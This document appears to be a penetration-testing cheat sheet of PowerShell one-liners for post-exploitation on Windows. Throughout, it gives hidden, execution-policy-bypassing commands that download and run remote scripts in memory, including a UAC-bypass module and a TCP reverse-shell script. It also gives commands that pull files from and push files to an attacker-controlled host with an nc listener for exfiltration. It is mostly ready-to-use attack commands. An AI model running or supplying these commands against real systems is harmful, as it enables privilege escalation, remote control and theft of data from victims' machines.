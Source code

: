 ## Start up WebServer

## Run script in memory:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE')

#EXAMPLE
powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'

# In PowerShell:
IEX((New-Object System.Net.WebClient).DownloadString('http://<LocalIPAddress>:<PORT>/FILE'))
```

=========================================
# Download File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).DownloadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

=========================================
# Upload File:
```ps
powershell.exe -Exec Bypass -NoP -NonI -W Hidden (New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')

# In PowerShell:
(New-Object System.Net.WebClient).UploadFile('http://<LocalIPAddress>:<PORT>/FILE', 'LocalFile')
```

---------------
# If you can't copy over SMB
## On Local Box
nc -lnvp 443 > Out.File
## On Windows Box
```ps
Invoke-RestMethod -Uri http://<LocalIPAddress>:<PORT>/<FILE> -Method Post -InFile <LocalFile>
```
=========================================

[+] EXTRA
## Upgrade PSH to 64-bit shell
```ps
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe -Exec Bypass -NoP -NonI -W Hidden IEX(New-Object Net.Webclient).DownloadString('http://<LocalIPAddress>:<PORT>/Invoke-PowerShellTcp.ps1')
```
